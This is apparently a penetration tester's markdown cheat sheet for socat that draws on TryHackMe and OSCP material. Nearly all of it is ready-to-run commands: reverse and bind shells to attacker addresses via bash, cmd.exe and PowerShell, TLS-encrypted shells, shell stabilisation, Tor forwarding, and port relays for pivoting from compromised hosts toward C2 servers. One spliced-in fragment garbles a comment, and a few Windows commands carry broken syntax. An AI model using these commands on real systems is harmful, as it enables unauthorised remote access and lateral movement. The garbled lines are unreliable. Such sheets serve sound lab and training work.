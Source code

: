 # Socat 

[Socat](https://linux.die.net/man/1/socat) is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features. 

`socat` requires:
1. "-" to transfer data between STDIO and remote host
1. protocol name
1. Any protocols, options, port ARE colon delimited

```bash
socat - TCP4:<remoteIP>:PORT

socat TCP4-LISTEN:8080 STDOUT

socat TCP4:ip:port EXEC:/bin/bash
```

#### Reverse Shells

Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create 
# create specifies that a new file will be created.
# fork creates a child process once connection is made to the listener(multiple connections allowed)
```

Connect to reverse Shell:
```powershell
# Windows!
.\socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
.\socat.exe TCP:<IP>:<Port> EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```
On Linux
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

#### Bind Shells

Start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

#### Shell stabilisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```

Fixing terminal size
```bash
stty size
stty -rows 48 -columns 120
```

#### File transfers
```bash
socat TCP4-LISTEN:$PORT,fork file:$filename
```

#### Special upload precompiled socat binary 
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
1. `pty`, allocates a pseudo-terminal on the target -- part of the stabilisation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer stabilisation process
1. `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
1. `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
1. `setsid`, creates the process in a new session
1. `sane`, stabilises the terminal, attempting to "normalise" it

Similarly on Windows:
```batch
.\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```

### Encrypted Shells
 
Generate a Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

# req indicates that this is a certificate signing request. 
# -x509 specifies that we want an X.509 certificate
# -newkey rsa:4096 creates a new certificate request and a new private key using  RSA, with the key size(Optional sizes!) being 4096 bits. 
# -days 365 shows that the validity of our certificate will be one year
# -subj sets data, such as organization and country, via the command-line.
# -nodes simplifies our command and does not encrypt the private key
# -keyout `PRIVATE\_KEY` specifies the filename where we want toation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer to save our private key
# -out CERTIFICATE specifies the filename to which we want to write the certificate request
```
Merge the two files:
```bash
cat shell.key shell.crt > shell.pem
```
Setup reverse shell listener 
```bash
# Linux
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - # verify=0 means dont bother trying to validate cert 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
If on windows:
```powershell
.\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
err,setsid,sigint,sane
```

The same for bind shell
```powershell
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash # For windows after:" ,verify=0 EXEC='cmd.exe' "
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
`socat` listener and connection on windows
```bash
socat.exe -d OPENSSL-LISTEN:5678,cert=<cert>, verify=0 STDOUT, bind=127.0.0.1
socat.exe OPENSSL:127.0.0.1:5678, verify=0 EXEC=’cmd.exe
```

#### Less Common Cool Usages
```bash
# Connect to a http server
socat TCP4:domain.com:80 -
# Connect to a https server
socat TCP4:domain.com:443 -

# Output hexdump from a port
socat -x tcp-listen:$port,fork -

# (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ | socat TCP4:domain.com:80 -

# http to https 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050
#https://superuser.com/questions/1302861/how-i-can-make-port-forwarding-using-tor#1302869
```

Socat as a Proxy
```bash
socat TCP-LISTEN:6969,fork,reuseaddr,bind=127.0.0.1 TCP:remote_ip:remote_port
```

## Port Redirection and Tunnelling with `socat`

[[Port-Redirection-And-Tunnelling]] with `socat`

Port Forwarding
```bash
# Use to kill and manages jobs
jobs
kill $jobID

# Not stealthy will open a port on a compromised machine!
# Create a listener to port forward traffic from $targetToForwardAddr:$ForwardedPort
socat tcp-l:33060,fork,reuseaddr tcp:$targetToForwardAddr:$ForwardedPort &

# Stealthier
# Create a local port relay on attacking machine
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
# Reverse port forward from a compormised server back to  
socat tcp:$AttackingMachine:8001 tcp:$targetToForwardAddr:$ForwardedPort,fork &

```

Reverse Shell Relay 
```bash
# RemoteBox - create a listener that connects back to to the address of another box
socat tcp-l:8000 tcp:$LocalBoxAddr:443 &
# LocalBox has listen on port 443

# For port reuse from some proxy to another listening C2/Server/etc 
socat TCP-LISTEN:8000,reuseaddr,fork TCP:<destination_ip>:<destination_port>
```


## References

[jackadamson](https://jackadamson.github.io/cheatsheets/socat/)
[gothburz](https://github.com/gothburz/OSCP-PWK2.0/blob/master/practical-tools/socat-shell-cheatsheet.md)
[cheat](https://github.com/cheat/cheatsheets/blob/master/socat0)
[THM Wreath Room](https://tryhackme.com/room/wreath)